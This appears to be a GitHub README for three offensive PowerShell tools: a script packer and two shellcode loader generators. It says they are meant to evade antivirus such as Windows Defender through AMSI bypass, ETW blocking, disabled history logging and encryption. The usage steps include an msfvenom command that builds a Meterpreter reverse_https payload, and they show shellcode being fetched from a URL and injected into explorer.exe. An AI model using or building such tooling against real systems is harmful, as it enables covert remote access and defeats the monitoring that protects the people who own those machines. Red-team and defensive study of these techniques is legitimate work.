 --------------------------------------
### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' is a simple PowerShell script packer that aims to bypass AV solutions such as Windows Defender.

> Features
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  
> Usage
  - Import-Module ./Invoke-PoSH-Packer.ps1
  - Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
  Or  
  - Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1

--------------------------------------
### Invoke-PoSH-ShellCodeLoader.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader' is shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into the current process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of the current process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader -FileUrl https://URL/shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader -FilePath C:\path\shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into a target process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1
  Or
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1

--------------------------------------
License: GNU General Public License v3.0
